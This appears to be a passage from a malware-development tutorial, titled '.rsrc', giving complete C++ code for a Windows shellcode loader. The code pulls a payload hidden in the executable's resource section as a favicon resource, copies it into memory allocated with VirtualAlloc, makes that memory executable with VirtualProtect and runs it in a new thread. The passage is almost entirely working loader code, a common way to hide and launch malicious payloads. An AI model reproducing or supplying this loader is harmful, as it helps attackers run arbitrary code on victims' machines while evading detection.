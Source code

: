 
# .rsrc

For this, we will be using the following code. First initialize the executable:
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
	
	void * exec_mem;
	BOOL rv;
	HANDLE th;
	DWORD oldprotect = 0;
	HGLOBAL resHandle = NULL;
	HRSRC res;
```

Then create the payload:
```cpp
    unsigned char * payload;
	unsigned int payload_len;
	
	//Extract payload from resources section
	res = FindResource(NULL, MAKEINTRESOURCE(FAVICON_ICO), RT_RCDATA);
	resHandle = LoadResource(NULL, res);
	payload = (char *) LockResource(resHandle);
	payload_len = SizeofResource(NULL, res);
```

And now use the same as before to generate the executable buffer:
```cpp
	// Allocate a memory buffer for payload
	exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	
	// Copy payload to new buffer
	RtlMoveMemory(exec_mem, payload, payload_len);
	
	// Make new buffer as executable
	rv = VirtualProtect(exec_mem, payload_len, PAGE_EXECUTE_READ, &oldprotect);
	
	// If all good, run the payload
	if ( rv != 0 ) {
			th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_mem, 0, 0, 0);
			WaitForSingleObject(th, -1);
	}
	
	return 0;
}
```
